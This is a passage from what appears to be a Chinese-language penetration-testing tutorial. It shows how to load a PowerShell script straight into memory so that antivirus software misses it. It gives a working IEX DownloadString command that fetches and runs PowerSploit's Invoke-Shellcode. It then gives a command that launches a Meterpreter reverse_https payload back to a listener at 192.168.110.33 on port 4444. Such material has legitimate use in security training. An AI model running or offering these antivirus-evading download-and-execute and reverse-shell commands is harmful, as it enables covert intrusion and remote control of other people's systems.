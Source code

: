 1.  这里的技巧是下载一个 PowerShell 脚本并将其加载到内存中，因为它从未保存在硬盘上，所以杀毒软件不会检测到它。

1.  我们首先检查 PowerShell 是否已安装，运行`powershell`：

![](img/b53aad5b-05ae-465e-a69a-5f0ce4a0fed5.png)

1.  我们将使用这个命令。使用单引号很重要；否则，我们可能会得到一个缺少括号的错误：

```
 powershell IEX (New-Object Net.WebClient).DownloadString
      ('https://raw.githubusercontent.com/PowerShellMafia/
      PowerSploit/master/CodeExecution/Invoke-Shellcode.ps1')
```

![](img/4d7c0558-ad8f-413e-b3ff-cfcea063b805.png)

1.  我们不应该看到任何错误。现在我们的脚本已经准备好了，我们调用模块并使用以下命令查看帮助：

```
 Get-Help Invoke-Shellcode
```

![](img/2757b763-17ef-4760-abee-66ab407f67ca.png)

1.  现在我们运行该模块：

```
 powershell Invoke-Shellcode -Payload
      windows/meterpreter/reverse_https -Lhost 192.168.110.33
      -Lport 4444 –Force
```

![](img/116bd076-38a2-4350-9eca-30768454a207.png)
